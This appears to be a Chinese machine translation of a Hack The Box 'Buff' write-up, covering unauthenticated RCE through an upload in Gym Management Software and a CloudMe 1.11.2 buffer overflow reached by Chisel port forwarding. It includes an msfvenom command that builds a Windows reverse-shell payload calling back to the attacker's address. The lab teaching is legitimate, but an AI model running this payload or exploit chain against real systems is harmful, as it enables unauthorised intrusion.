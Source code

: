 # HTB 迷[评论]

> 原文：<https://infosecwriteups.com/htb-buff-writeup-5d118ab695c0?source=collection_archive---------1----------------------->

## 未经验证的 RCE |缓冲区利用|端口转发

![](img/136e63f5d49b8cfdff5b524440eb150a.png)

# 摘要

这台机器教你如何利用一个简单的应用程序，容易受到未经认证的 RCE 获得用户外壳。对于根攻击，需要修改缓冲区攻击代码和端口转发技术。

**使用的工具:** `nmap` | `curl` | `nc` | `chisel`

# 侦察和计数

**Nmap TCP 扫描输出**

![](img/a9046902f9edb9a34557f19083d2df73.png)

# 据点

********************端口 8080 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

在 */contact.php* 下，我们可以看到它可能是用户名。

web 应用程序正在运行健身房管理软件 v1.0，该软件易受[远程代码执行(RCE)](https://www.exploit-db.com/exploits/48506) 攻击。该漏洞通过将恶意 php 文件上传到/upload.php 来绕过图像上传过滤器。

![](img/c71c5bd50fb358146fa3bf5afa57d5d7.png)

# 反向外壳

在下载了漏洞代码并试图执行它之后，我得到了以下错误。然而，它只需要简单的修复:

![](img/656db57c07b51a6493bf06e02ba9b03d.png)

错误 I

![](img/bde145e9d04888ef09e520d3c776dd38.png)

修复 I

![](img/94f33a4fd42ec44e1fbf84e5a8fc1f1b.png)

错误二

![](img/10ebc21b6b1084b593b9d28a908fb522.png)

修复 II

![](img/dbedb091fcfeb354bbb75d7625cc030a.png)![](img/7584d4415d1df231a26752ed5e73763c.png)

# 横向运动

弹出一个窗口外壳后，总是尝试执行**powershell.exe**，因为它允许你运行更强大的命令。

不过，对于这台机器，在下载文件夹中找到了一个名为 **CloudMe_1112.exe** 的可执行文件。

![](img/f4289e70e76d963c9e4e06dd0c58c4c5.png)

# 权限提升

【CloudMe.exe 剥削 1 . 11 . 2

CloudMe 1.11.2 程序容易受到**缓冲区溢出**的攻击。以这个[漏洞利用](https://www.exploit-db.com/exploits/48389)为指导，我利用这台机器来获得 root。

![](img/b6a103a1456474e39d17f8c7e593cb24.png)![](img/92df63892ea13f8a1f58fd055c99e66b.png)

要检查 *CloudMe* 是否已经在运行，运行`tasklist` 命令查看正在运行的进程。

![](img/8d494c3ec79979213561ac7036749be9.png)![](img/a9934fc2105394766f7b3fbbcff47465.png)

下面我们可以看到 CloudMe 正在本地主机上运行。在执行`netstat -antp tcp` 命令时，我们还可以看到 localhost 上运行着两个端口:3306 和 8888。在 google 上快速搜索 cloudme 端口，我们发现它运行在端口 8888 上。因此，我们现在知道 **CloudMe** 正在监听 **127.0.0.1:8888。**

![](img/685b194adca26f689ece614ca19b828e.png)

以下是该漏洞的有效载荷。

![](img/c02bf849bd89a3e0d6232500043d798c.png)

使用下面的代码修改漏洞利用代码中的当前外壳代码，并通过运行以下命令将其转换为外壳代码:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.35 LPORT=8700 -f py -v payload`

将上面的 exploit.py 有效负载替换为我们的 localhost 和执行 shell 的端口。

![](img/e02e80adafe181f6b96ff2fe25764158.png)

## 端口转发

受害者机器在本地主机 8888 上运行 cloudme.exe，我们希望该端口在攻击者的机器上运行。

下载客户端 chisel.exe 到受害者和 chisel 服务器监听攻击者的机器。

![](img/c022ae67e5e444a5f69d2de8a39f5e3b.png)

> 在攻击者的机器上启动 Chisel 服务器

![](img/2d27f2c5b95d7de15292a437a18b840b.png)

> 在受害者的机器上启动 Chisel 客户端

![](img/6c0ba3be070ee66156329c7b510fefd1.png)

现在，在 8700 上启动一个监听端口，这个端口之前用于创建 msfvenom 有效负载。

执行修改后的 exploit.py，让外壳弹出到攻击者的机器上。

![](img/c0f007aee721d6b8d8f1a8992de2986a.png)![](img/4fe5a09238c6b6863fc3cdf06da78ea5.png)

**成功！！！**

![](img/2f7a1cc1c36a96dd6f62d554cc9543b8.png)

# 补救

*   删除任何程序是过时的，并已在互联网上可用的工作漏洞。